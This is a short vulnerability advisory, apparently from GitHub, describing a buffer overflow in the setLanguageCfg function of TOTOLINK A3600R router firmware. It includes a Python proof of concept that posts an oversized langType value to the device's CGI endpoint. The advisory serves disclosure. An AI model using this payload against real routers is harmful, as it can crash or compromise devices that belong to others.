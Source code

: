 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=63&ids=36

## Affected version

A3600R V4.1.2cu.5182_B20201102

## Vulnerability details

In the A3600R V4.1.2cu.5182_B20201102 firmware has a buffer overflow vulnerability in the `setLanguageCfg` function. The `v6` variable receives the `langType` parameter from a POST request. However, since the user can control the input of `langType`, the statement `sprintf` can cause a buffer overflow injection vulnerability.

![image-20240720235935465](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240720235935465.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setLanguageCfg",
"langType":"a"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721000118466](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721000118466.png)
